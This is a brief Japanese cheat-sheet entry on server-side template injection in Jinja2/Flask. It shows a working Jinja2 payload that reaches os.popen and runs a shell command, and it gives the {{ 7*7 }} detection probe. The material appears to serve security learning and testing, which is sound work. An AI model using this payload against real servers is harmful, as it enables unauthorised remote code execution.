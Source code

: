# Server-Side Template Injection (SSTI)
テンプレートエンジン(Jinja2, Twigなど)にユーザ入力が直接渡るとテンプレート構文でコード実行が可能

## 実践例: Jinja2 SSTI
```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

## よくある形式

- {{ 7*7 }} -> 49が返ってくるかどうかでSSTI判定する
- Pythonオブジェクトチェーンでos.popenに到達
- Flaskアプリで'render_template_string()'が使われているケースが多い
